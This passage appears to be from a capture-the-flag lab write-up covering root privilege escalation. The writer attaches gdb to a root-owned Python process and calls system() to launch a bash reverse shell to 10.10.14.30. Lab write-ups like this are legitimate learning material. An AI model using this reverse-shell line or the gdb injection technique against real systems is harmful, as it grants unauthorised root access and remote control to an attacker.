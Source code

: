 Found a python process running as root
```bash
developer@faculty:~$ ps -aux | grep root | grep python
root         731  0.0  0.9  26896 18132 ?        Ss   Jun30   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
```

Attach that process in `gdb`
```bash
gdb -p {PID}
```

call python builtin function `system()`

* https://stackoverflow.com/questions/1354731/how-to-evaluate-functions-in-gdb

```bash
call system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.30/4141 0>&1'")
```

![](screenshots/rooted.png)